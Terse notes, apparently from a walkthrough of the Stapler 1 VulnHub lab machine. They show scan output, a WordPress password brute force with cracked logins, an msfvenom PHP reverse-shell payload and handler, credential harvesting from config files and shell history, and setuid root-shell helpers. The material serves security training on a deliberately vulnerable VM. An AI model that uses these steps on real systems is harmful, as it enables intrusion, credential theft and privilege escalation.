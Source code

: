 https://kooksec.blogspot.com/2016/08/stapler-1-vulnhub-walkthough.html


└─$ sudo nmap -sT -A -Pn -n -T4 -p-  192.168.110.43
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-11 07:04 CEST
Nmap scan report for 192.168.110.43
Host is up (0.00074s latency).
Not shown: 65523 filtered ports
PORT      STATE  SERVICE     VERSION
20/tcp    closed ftp-data
21/tcp    open   ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 550 Permission denied.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.110.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open   ssh         OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 81:21:ce:a1:1a:05:b1:69:4f:4d:ed:80:28:e8:99:05 (RSA)
|   256 5b:a5:bb:67:91:1a:51:c2:d3:21:da:c0:ca:f0:db:9e (ECDSA)
|_  256 6d:01:b7:73:ac:b0:93:6f:fa:b9:89:e6:ae:3c:ab:d3 (ED25519)
53/tcp    open   domain      dnsmasq 2.75
| dns-nsid: 
|_  bind.version: dnsmasq-2.75
80/tcp    open   http        PHP cli server 5.5 or later
|_http-title: 404 Not Found
123/tcp   closed ntp
137/tcp   closed netbios-ns
138/tcp   closed netbios-dgm
139/tcp   open   netbios-ssn Samba smbd 4.3.9-Ubuntu (workgroup: WORKGROUP)
666/tcp   open   tcpwrapped
3306/tcp  open   mysql       MySQL 5.7.12-0ubuntu1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.12-0ubuntu1
|   Thread ID: 9
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, SupportsCompression, LongColumnFlag, Speaks41ProtocolNew, Speaks41ProtocolOld, LongPassword, SupportsTransactions, ODBCClient, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, FoundRows, InteractiveClient, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, ConnectWithDatabase, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: ng\x16= T\x01>\x0B4>7`\x071\x184V:E
|_  Auth Plugin Name: mysql_native_password
12380/tcp open   http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:72:AC:AD (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: RED; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m58s, deviation: 34m37s, median: 1h59m57s
|_nbstat: NetBIOS name: RED, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.9-Ubuntu)
|   Computer name: red
|   NetBIOS computer name: RED\x00
|   Domain name: \x00
|   FQDN: red
|_  System time: 2021-09-11T08:05:45+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-11T07:05:45
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.74 ms 192.168.110.43

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 131.15 seconds




```console
─$ nikto -h 192.168.110.43:12380
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.110.43
+ Target Hostname:    192.168.110.43
+ Target Port:        12380
---------------------------------------------------------------------------
+ SSL Info:        Subject:  /C=UK/ST=Somewhere in the middle of nowhere/L=Really, what are you meant to put here?/O=Initech/OU=Pam: I give up. no idea what to put here./CN=Red.Initech/emailAddress=pam@red.localhost
                   Ciphers:  ECDHE-RSA-AES256-GCM-SHA384
                   Issuer:   /C=UK/ST=Somewhere in the middle of nowhere/L=Really, what are you meant to put here?/O=Initech/OU=Pam: I give up. no idea what to put here./CN=Red.Initech/emailAddress=pam@red.localhost
+ Start Time:         2021-09-11 07:16:39 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'dave' found, with contents: Soemthing doesn't look right here
+ The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ The site uses SSL and Expect-CT header is not present.
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Entry '/admin112233/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/blogblog/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 2 entries which should be manually viewed.
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Hostname '192.168.110.43' does not match certificate's names: Red.Initech
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ Uncommon header 'x-ob_mode' found, with contents: 1
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ 8071 requests: 0 error(s) and 15 item(s) reported on remote host
+ End Time:           2021-09-11 07:18:36 (GMT2) (117 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```
```console
$ wpscan --url https://192.168.110.43:12380/blogblog/ -e --disable-tls-checks --no-banner --no-update  --passwords /usr/share/wordlists/rockyou.txt


[+] Performing password attack on Xmlrpc Multicall against 11 user/s
[SUCCESS] - garry / football
[SUCCESS] - harry / monkey
[SUCCESS] - scott / cookie
[SUCCESS] - kathy / coolgirl
[SUCCESS] - barry / washere
[SUCCESS] - john / incorrect
^Cogress Time: 00:34:08 <                            > (2674 / 144037)  1.85%  ETA: 30:04:50
```
```console

└─$ msfvenom -p php/meterpreter/reverse_tcp --list-options
└─$ msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.110.1 LPORT=4444 -f raw -o rev.php

msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.110.1
msf6 exploit(multi/handler) > run

└─$ curl https://192.168.110.43:12380/blogblog/wp-content/uploads/rev.php -k
```

```bash
netstat -tlpn 
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:53              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:8888            0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:666             0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::139                  :::*                    LISTEN      -               
tcp6       0      0 :::53                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       0      0 :::12380                :::*                    LISTEN      -               
tcp6       0      0 :::12380                :::*                    LISTEN      -               
tcp6       0      0 :::12380                :::*                    LISTEN      -               
tcp6       0      0 :::445                  :::*                    LISTEN      -     
```

```php

define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'plbkac');

/** MySQL hostname */
define('DB_HOST', 'localhost');


mysql -uroot -pplbkac -h 192.168.110.43


find  /home -name ".bash_history" 2>/dev/null -exec cat {} \;
sshpass -p thisimypassword ssh JKanode@localhost
apt-get install sshpass
sshpass -p JZQuyIN5 peter@localhost

```
```bash

peter@red ~ % uname -a
Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux

└─$ searchsploit Ubuntu 16.04 
```

```c
/*
root@red:~/39772/ebpf_mapfd_doubleput_exploit# cat suidhelper.c
gcc -o suidhelper suidhelper.c -Wall
*/
#include <unistd.h>
#include <err.h>
#include <stdio.h>
#include <sys/types.h>

int main(void) {
        if (setuid(0) || setgid(0))
                err(1, "setuid/setgid");
        fputs("we have root privs now...\n", stderr);
        execl("/bin/bash", "bash", NULL);
        err(1, "execl");
}

```

JKanode@red:/tmp$ echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c


```c
/*setuid.c*/
/*gcc setuid.c -o setuid*/
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>

int main(void){
        setuid(0);
        setgid(0);
        system("/bin/bash");
}

```

```bash
peter@red ~ % cat /usr/local/sbin/cron-logrotate.sh
#Simon, you really need to-do something about this

chown root.root /home/peter/suidhelper
chmod 4755 /home/peter/suidhelper


```
